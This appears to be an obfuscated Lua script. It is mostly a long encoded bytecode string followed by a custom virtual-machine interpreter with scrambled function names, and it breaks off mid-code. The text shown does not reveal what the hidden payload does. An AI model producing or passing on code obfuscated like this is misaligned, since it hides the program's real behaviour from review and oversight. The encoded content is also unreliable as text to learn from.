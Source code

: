 _9_j4h3+k+000jkV7{VeVj9cekeWe{h;c9e{+h+7W+W_jjj2;7;Z+{{c{{_W;WR;kVk{0h0xq9V0Vj9V9707e_hhckce+q+;W9W{h+jE;c707jjc{7_q__SkkkkW0q?;7eq{VqVD9+e0eehV97V7c_+9WkWejqW_;9;{+V7,{e_0_j2V67keu77oqkqhVqVW999{ehe/V7c0cc+V+jWeW_jcWkej7q7c{9{{_h_j=+k07l0V0WqeqjVcV_9Weqehh9h{chc_++W0WjjV+k;e;;7c7_{W_q_;{977khk;0+q0qjq_V79e9cece{hWh6c;+k+{WhW+j+j_;j7077{q{__c_9lW._k;k70{qhqaVqV+9j9&e70;h_ch+k+hWqWcj9j{;h;bc_{0{W_V_+Bey_kc0k7eqqqjV9V{0j9Yeeh0hccVc7+eh_V+jkje;q;;797+{h{M7+b0MckVkW0e0jqcqjqV9q9+e9kWhhh_c++k+j+^W7jej_;ch77W{0{;_9jj*hP7k+0k0jqVq7qV!h9c9{eWhkh;c9c{+hhVW+W_jj;k;77e7_;c+0_W__L;k9k{000Ek+&+Vj9k97e0e_ejckhcqj+;W0W{j9ji;+7079Wq{7_q__e+kkk+0q0;q9qWVhV}9+e0;;hVh;ceh7qtWkWhjqW=;9;{7h7WWc_0_c8Vj0kek{0cqkqWq_V;999{ehk9h+ckcjcQ+7WeW_jceq;W707;{9;0_h_75+z+kj0V070T{7Vc9k9W;Ve;hVh{cVc.+9W0WjjVj70h;_7h{k;Wj;_;r0E{kekO-_q00+{jV79k9_9+hkhWcqhWcj+{WkWtW9;0;j7V77;l{__9Kk3VkqkW09%{q9qdVe909ceV9qhee7cq+k+9WqWjj9j{;hj{j;{0{9_V{9Be,_kc0k0hqqq+V9Vc9h9{e+90VVcVcW+e+;Wc+hjWjkeV797+{h{e_+s0-jB0ah0e0+qc0+VW9q9;e9eqhhh7c+c;+jW0W7jejW;c;27W7){;_9_{6h_9k+k_0jqqq7VeV_9cV9eWe_h;hjc{+h+Kc+W0jjjv;7707_79_k7W;;Z;kkk{0q0&qkV0V9q_9792e_hcckc++q+hW9W{eVjC;+707j{V{7_e__j9kkkW0q0jq9q{VhVvkqe0ejhVh0cec_+cWkeVjqj;;9;97h7.{+_0WcQV=7kek;0cqkqWVqq;999WeheWh+h}cjc0cVWeWWjcW_;W7q7;7q7W_h_WM+3kkj0V07qeqjVcV;9Weke;hVh{ehhs+++7WjWoj7W_;_7c;_{W{{_;vqv{kek-0qkhqjVkV7jc9_ehhkhWcqcc+9+{WhW-kj;0;W7V;jc{{__qSkXkkqk;090c_eq,VV90;+eVe;heh_ccc7+WWqW;j90;;h;_7+{0j__V_cNe!qkc0k0Wkqt9V9V+9h9je+9Vhjh0q9+e+cWcWWjW;q;;;_;c{h{+_+h;wjkqk7090_qVVkVW9q9;7_e{hehlc9+0+jWVW707j_;h7k;cck{;{{_{Aqsuk+0009k{q7q_V_;{eke+hqhjc9cW+h+(W+j0qk;V;;7e;7ce_k_qmq_ck9k{0hk{7hV0Vq9VV_eee_hcekhl+q+qW9W{jhWq;+jl7+{V{q_e{q}ckkkW0qkhq9qqVhV_9+e0ejhVeccecc+c+WWWWcj;jqjc7h7c{+{__jAVI7keDc0c0;qWqjV;9V9{eqeVh+c0cj_e+7W9W_Wee+;W;{7;7W{{_h_U_h_jkjk{070cq_Vc9kqW9ee;e{h{chcih;W0++Whj7j{;_j;{k{W_q_;_q({a{ky0cq0qjVVV7q_9_e0hkhVcqcq+9c{c;WijV;0j07V7h{e{_{q}kJ9kqZ_090{qhkBk0909eeVechee_cch_qcWqW9j9jc;h;57+;K+q_V_9neRVkc0k0WqqucV9V+9h9ce+hkhjcVq7+e+;WcjkjW;q;;797+{h{p_+TkHjkVk7090_qcVkVk9q9;e9e{eSh#c++0V{q_qWVq9{eke;7W7c{;_9_{;k+{WWj97c;V7c{9{V_q{_e+hqh;c9c{+h+Xj+hqjjj{;77e7_+qh{+9+k;qjkk{0V0>q+V0UW{c_keee+hcckcW0q0hVqV0V{97;+;_7j{V{7cqcWWekkke0q0;q9{W{0{_{;e09{hVh7ceq;0cq;V+Vc9h9qh+eVhjhhW++h7{N7kek_Cc70qWVkV;999{9{eph+9ecj+k+7WeW_jc;kWWhV7;{0{{_V_3L9k0k97007qVq_V09k9+eqe+h9hWchcO++W0W9jVj;;e;j7c{k{W_q7h(9m7kh_G;Wq0q+VVV79e9{echkV-cqc++9+7WhW?j+W0jV7V7W{e{;_c_WEWkqk0090+qhq_V+909jeVeVhehWccc;+WWqW;+9je;h;W7+{0{j_q_7Ce_0kckj0W07q;V9V{9hV7e+e7hjh_c7c/+_cccVjWj{;;;m7{{V{(_+j7Ljkkk70k0_qeVkVV0j9;eqe{90h=cc+0+cWVW+jej_;c7kj9{q{j_97c;qDUkc00KcqVq;VeVW9c97eWhqh;c9ej+h+_W+c;hh;V;;7e;c{c{H_W_j!;kkk{0h0/q+0jVj9q97e0e_hcckcWe{+;WVW{W9ec;+;E7j7{{7_e__p0_jkW0k0;2&q{VeVb9ce0ehhVh7cec_hqWkW+jqj;++;{7971{h_0_jHV{7;7k_09qkqWVqVW999{9he.hhc0c++V+WWec_WW;k;c7q7W{9{e_h_J_kk0kc0V0Wqeq_VcqkVeeqe+h9hjchcc+++;WVjVjj;eW;7c7?{W{w_;Sk<{khky0+m_qjVqV7909_echkhW9{c;+V+{Whe7j+j5;j7V77{e{__c{9)Wkkk;0k0{qhqvV+V79jeVe7h9h_cc+k+WWqW;j9j;;9;O7+{0{j{__7XeA_kcjW0Wq0q;V9V{9h92e+ehhjc0c7+9+_WcjkjWj0;;707{{h{P_+R05j!8k7090_q9VkV+9q9;V4e{hhh4cc+0+jWVW7jej_;c;U7c{q{;_9_{_>y>k+00{c;;7;707j_q_7eWe;h;c9c{9VqkqjVV9eek9+;_7_{c_k7WWVR;kVk{0h0ZqcV00jk797e9e_hhckcc+q+ecxW{jVjI;+707W{V{j_e__;0kkkW0q0;q9q{VhV23ee0ejhVh7cec_+cWkhejqjj;9;j7h7_{+_0_eGVz7kek{0cqkqWV0V;999{ehe&h+c0ce+V+7WeW_9k;k;+7q7;{9{{_h_-_7k0k+0V0;qeq_Vc9k9+eqe+h9h{chc<++W0WqjVj;;e;;7c7B{W_q_W!9*{khk_0+q0qjVVV79e9_ehemhW");local n=0;_.JodRyJmA(function()_.qnUXqDJU()n=n+1 end)local function e(h,e)if e then return n end;n=h+n;end local h,n,o=k(0,k,e,j,_.fwUrZaCK);local function t()local h,n=_.fwUrZaCK(j,e(1,3),e(5,6)+2);e(2);return(n*256)+h;end;local s=true;local s=0 local function p()local e=n();local n=n();local l=1;local d=(h(n,1,20)*(2^32))+e;local e=h(n,21,31);local n=((-1)^h(n,32));if(e==0)then if(d==s)then return n*0;else e=1;l=0;end;elseif(e==2047)then return(d==0)and(n*(1/0))or(n*(0/0));end;return _.VqBBdSkU(n,e-1023)*(l+(d/(2^52)));end;local u=n;local function b(n)local h;if(not n)then n=u();if(n==0)then return'';end;end;h=_.FnOBmZdC(j,e(1,3),e(5,6)+n-1);e(n)local e=""for n=(1+s),#h do e=e.._.FnOBmZdC(h,n,n)end return e;end;local u=#_.VfFWbvxd(r('\49.\48'))~=1 local e=n;local function he(...)return{...},_.kblWxYti('#',...)end local function ee()local r={};local e={};local j={};local s={j,r,nil,e};local e=n()local k={}for d=1,e do local h=o();local n;if(h==2)then n=(o()~=#{});elseif(h==1)then local e=p();if u and _.qPKZoeJy(_.VfFWbvxd(e),'.(\48+)$')then e=_.tHSSmuMQ(e);end n=e;elseif(h==0)then n=b();end;k[d]=n;end;for _=1,n()do local e=o();if(h(e,1,1)==0)then local f=h(e,2,3);local o=h(e,4,6);local e={t(),t(),nil,nil};if(f==0)then e[l]=t();e[c]=t();elseif(f==#{1})then e[l]=n();elseif(f==a[2])then e[l]=n()-(2^16)elseif(f==a[3])then e[l]=n()-(2^16)e[c]=t();end;if(h(o,1,1)==1)then e[d]=k[e[d]]end if(h(o,2,2)==1)then e[l]=k[e[l]]end if(h(o,3,3)==1)then e[c]=k[e[c]]end j[_]=e;end end;for e=1,n()do r[e-(#{1})]=ee();end;s[3]=o();return s;end;local function ne(h,e,n)local d=e;local d=n;return r(_.qPKZoeJy(_.qPKZoeJy(({_.JodRyJmA(h)})[2],e),n))end local function g(p,r,o)local function ne(...)local t,m,u,ne,b,n,a,ee,y,s,j,h;local e=0;while-1<e do if e>2 then if e>4 then if e~=6 then h=k(7);else e=-2;end else if 2<=e then for n=27,91 do if 3~=e then s=_.kblWxYti('#',...)-1;j={};break;end;ee={};y={...};break;end;else s=_.kblWxYti('#',...)-1;j={};end end else if e>=1 then if e~=2 then u=k(6,87,3,63,p);b=he ne=0;else n=-41;a=-1;end else t=k(6,93,1,54,p);m=k(6,89,2,37,p);end end e=e+1;end;for e=0,s do if(e>=u)then ee[e-u]=y[e+1];else h[e]=y[e+1];end;end;local e=s-u+1 local e;local k;local function s(...)while true do end end while true do if n<-40 then n=n+42 end e=t[n];k=e[z];if k>=53 then if 79<k then if k<93 then if k>85 then if 88<k then if 91>k then if k>=86 then repeat if 89~=k then if(h[e[d]]<h[e[c]])then n=e[l];else n=n+1;end;break;end;local k,_;for o=0,6 do if o>2 then if 5<=o then if o>=3 then repeat if o~=5 then